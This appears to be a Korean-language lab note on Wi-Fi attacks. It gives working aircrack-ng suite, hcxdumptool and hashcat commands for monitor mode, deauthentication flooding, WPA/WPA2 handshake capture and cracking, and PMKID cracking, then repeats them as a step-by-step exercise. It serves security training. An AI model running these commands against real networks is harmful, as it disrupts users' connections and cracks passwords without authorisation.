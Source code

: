 ### Goal

- 무선 인터페이스를 모니터 모드로 전환
    
- WEP/WPA/WPA2 핸드셰이크 수집·크랙
    
- PMKID·Deauth 공격
    

---

### 주요 도구 & 해석

1. **airmon-ng (무선 모니터 모드 전환)**
    
    `sudo airmon-ng start wlan0`
    
    - **해석**: `wlan0`을 `wlan0mon` 등 모니터 모드 인터페이스로 변경
        
2. **airodump-ng (패킷 캡처 & AP/클라이언트 탐지)**
    
    `sudo airodump-ng wlan0mon --write capture --output-format pcap`
    
    - **해석**: 주변 AP·클라이언트를 스캔하며 `capture-01.pcap` 파일 생성
        
3. **aireplay-ng (Deauth 공격)**
    
    `sudo aireplay-ng --deauth 10 -a <AP_MAC> -c <CLIENT_MAC> wlan0mon`
    
    - **해석**: `<AP_MAC>` ↔ `<CLIENT_MAC>` 간 10회 deauth 패킷 발송 → 핸드셰이크 유도
        
4. **aircrack-ng (WEP/WPA 크래킹)**
    
    `sudo aircrack-ng -w wordlist.txt -b <AP_MAC> capture-01.pcap`
    
    - **해석**: `wordlist.txt` 단어사전 대조로 WPA/WPA2 핸드셰이크 크랙
        
5. **hcxdumptool + hashcat (PMKID 공격)**
    
    `sudo hcxdumptool -i wlan0mon --enable_status=1 --filterlist_ap=<AP_MAC> -o pmkid.pcapng   hcxpcaptool -z pmkid.hccapx pmkid.pcapng   hashcat -m 16800 pmkid.hccapx wordlist.txt`  
    
    - **해석**:
        
        1. PMKID만 추출한 pcapng →
            
        2. hccapx 포맷 변환 →
            
        3. hashcat(-m16800)으로 크랙
            

---

### Lab Exercise 실습

1. **무선 인터페이스 모니터 모드**
    
    bash
    
    Copy
    
    `sudo airmon-ng check kill   sudo airmon-ng start wlan0`  
    
2. **패킷 캡처 & AP/클라이언트 리스트 작성**
    
    bash
    
    Copy
    
    `sudo airodump-ng wlan0mon --write wlan_capture --output-format pcap`
    
3. **Deauth 공격으로 핸드셰이크 유도**
    
    bash
    
    Copy
    
    `sudo aireplay-ng --deauth 20 -a AA:BB:CC:DD:EE:FF wlan0mon`
    
4. **WPA 핸드셰이크 크랙**
    
    bash
    
    Copy
    
    `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF wlan_capture-01.pcap`
    
5. **PMKID 기반 크랙**
    
    bash
    
    Copy
    
    `sudo hcxdumptool -i wlan0mon --filterlist_ap=AA:BB:CC:DD:EE:FF -o pmkid.pcapng   hcxpcaptool -z pmkid.hccapx pmkid.pcapng   hashcat -m 16800 pmkid.hccapx /usr/share/wordlists/rockyou.txt`